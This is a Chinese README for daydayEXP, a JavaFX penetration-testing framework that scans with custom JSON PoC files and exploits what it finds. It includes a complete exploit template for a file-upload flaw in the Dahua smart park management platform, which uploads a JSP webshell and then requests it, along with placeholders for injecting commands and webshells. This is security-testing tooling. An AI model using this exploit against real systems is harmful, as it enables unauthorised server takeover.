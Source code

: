  <h1 align="center">daydayEXP</h1>
	
## 项目简介：
受nuclei的设计思路影响，基于java fx写的一款支持加载自定义poc文件的、可扩展的的图形化渗透测试框架。项目反响还不错的话还会考虑继续更新....

## v0.2更新记录：
更新：
1.新增漏洞管理菜单，支持了POC编辑器，通过输入必要的参数信息自动生成poc文件（不需要自己手动一个个编辑json文件了!）
2.新增一键更新poc模块，一键同步配置文件、仓库POC信息。
![image](https://github.com/bcvgh/daydayEXP/assets/56790427/78c01149-c8ca-4bac-a1df-9a24d6885be6)


  
### 使用：

执行命令或用bat批处理脚本打开（直接打开会有中文乱码等问题，并确保poc文件在当前目录下）

食用建议：建议开启代理配合burp食用

```
java -jar -Dfile.encoding=UTF-8 dadayExp-0.1-jar-with-dependencies.jar   (jdk8)

因为jdk11以后就不自带javafx依赖了,所以运行需要指定javafx路径
java --module-path {javafx lib path} --add-modules ALL-MODULE-PATH -jar dadayExp-0.1-jar-with-dependencies.jar
```

#### 漏洞检测模块

选择一级列表内容可对所有该标签下的漏洞都进行检测，为多进程，默认线程为5。选择二级则对单个漏洞扫描。（因为多线程用的是继承Callable类，可能界面效果会不太好...）

![image](https://github.com/bcvgh/daydayEXP/assets/56790427/642384f2-344e-408c-afa6-b5b2c846c55e)


dnslog：在config.json中配置好dnslog api，面板中设置好dns地址即可食用。应用该功能可减少命令执行无回显或POC返回包特征值不明确导致的误报、漏报。（暂只支持ceye api）

下方例子中就可以看出，是否开启该模块会导致检测结果会有较大出入
![image](https://github.com/bcvgh/daydayEXP/assets/56790427/7e9db965-da7b-4251-865c-987ace0e3114)
![image](https://github.com/bcvgh/daydayEXP/assets/56790427/87ae9304-5f4f-4c00-b4fa-e66f2df6bab4)




#### 漏洞利用模块
点击漏洞利用按钮，会根据当前漏洞的type类型动态生成场景

`(命令执行类)`

例如命令执行、代码执行、SQL注入xpcmdshell等都归结到这一类

![image](https://github.com/bcvgh/daydayEXP/assets/56790427/99e2be93-71de-4e01-958a-e010385feb6a)




`(文件上传类)`

例如文件上传、任意文件写入、任意文件覆盖等都归结到这一类

![image](https://github.com/bcvgh/daydayEXP/assets/56790427/367b45dd-cbb8-458e-8054-bf3cf6632d5a)




`(反序列化类)`

开发中~~~~也没有想到较好的设计思路...
可以暂时用反序列化打内存马的poc直接当作文件上传类使用。



### POC编写

json文件中除了基本的name、tag等还有poc和exp两个模块(目前exp模块只支持type为upload或exec，如遇到其他类型漏洞，如：反序列化、未授权、sql注入等建议只设置好poc字段进行一个初步漏洞检测，后续手工进行利用)

对照其他poc的json文件，应该就能看懂编写规则。

如果需要新增一个漏洞标签，请在conf.json配置文件中新增，并在项目中"一键更新Poc"

```
name  :   漏洞名称
tag   ：  漏洞标签（如:fanwei、youyong等，需要正确填写，否则会影响到POC文件正确加载）
type  ：  漏洞类型（如:upload、exec、sql等，需要正确填写，否则影响EXP模块正常使用）
poc   :   漏洞检测
	pocGet:url路径
	pocPost:post数据(需要换行的情况建议用\r\n代替\n)
	header:
	Pattern：匹配返回包存在的特征值，通过匹配该字段确定漏洞是否存在
exp   ：
	step（n）：漏洞利用过程中的请求包先后顺序（step1代表请求的第一个数据包，step2、step3以此类推）
		expGet:url路径
		expPost:post数据
		header:
		Pattern：匹配返回包的内容（正则），当type类型为exec时，用来匹配返回包中的命令执行结果，upload类型则是一般用来匹配文件上传后随机生成的文件名。
```

例如:

```
{
  "name":"大华智慧园区管理平台文件上传",          //漏洞名称
  "tag":"dahua",							//漏洞标签（需要正确填写，否则影响POC文件正确加载）	
  "type":"upload",							//漏洞类型（需要正确填写，否则影响EXP模块正常使用）
  "poc": {									//根据模板编写，header头可自行添加修改
    "pocGet": "/publishing/publishing/material/file/video",			
    "pocPost": "id=1",												
    "header": {
      "cookie": "hades-session-id=cbbce521-a761-403d-b699-9849d2cb06b9;",
      "content-type": "multipart/form-data; boundary=----WebKitFormBoundaryCJEleSRxsqS0lAFv",
      "User-Agent": "Mozilla/5.0 (Linux;"
    },
    "Pattern": "(上传文件为空，请重新上传)"		//存在漏洞时返回包存在的关键字（正则表达式必须用（）包含）
  },
  "exp": {									//按step1、step2...先后顺序发包
    "step1": {
      "expGet": "/publishing/publishing/material/file/video",
      "expPost": "------WebKitFormBoundaryCJEleSRxsqS0lAFv\r\nContent-Disposition: form-data; name=\"Filedata\";filename=\"24k.jsp\"\r\n\r\n{webshell}\r\n------WebKitFormBoundaryCJEleSRxsqS0lAFv--",
      "header": {
        "cookie": "hades-session-id=cbbce521-a761-403d-b699-9849d2cb06b9;",
        "content-type": "multipart/form-data; boundary=----WebKitFormBoundaryCJEleSRxsqS0lAFv",
        "User-Agent": "Mozilla/5.0 (Linux;"
      },
      "Pattern": "([0-9]*\\.jsp)"			//第一个包需要正则匹配的话多为文件上传类型，匹配随机生成的jsp脚本名称，如无需匹配返回包则用（）。注意：正则表达式必须用（）包含。
    },
    "step2": {
      "expGet": "/publishingImg/VIDEO/{shellPath}",			//第一个包需要正则匹配的话多为文件上传类型，匹配随机生成的jsp脚本名称
      "header": {
        "cookie": "hades-session-id=cbbce521-a761-403d-b699-9849d2cb06b9;",
        "content-type": "multipart/form-data; boundary=----WebKitFormBoundaryCJEleSRxsqS0lAFv",
        "User-Agent": "Mozilla/5.0 (Linux;"
      },
      "Pattern": "()"
    }
  }
}
```

占位符：

```
{仅poc内可用}
{dnslog}:配置好dnslog平台api即可食用。一般应用于命令执行无回显的情况，减少误报率。

{仅exp内可用}
{command}:命令执行
{shellPath}:匹配到返回包中的脚本名称，应用于上传后wenshell文件名随机生成且在返回包中有回显的场景。
{webshell}:需要上传的文件上传内容

{poc、exp内均可使用}
{random}:随机生成4位数字字母，应用于poc中需要不同特征字符的特殊场景
{url}:即当前目标的url地址，应用在一些网站中可能会校验refer头的情况

编码：
Base64Encode:对输入进行base64编码
Base64decode:对输入进行base64解码码
UrlEncode:url编码（全编码）
UrlDecode：url解码
HtmlEncode:HTML编码
HtmlDecode:HTML解码


如：{webshell:Base64Encode:n}，{command:UrlEncode:3}其中n表示编码次数。（如泛微browser注入漏洞可能会用到{command:UrlEncode:3}，其他一般情况编码一次即可）
```

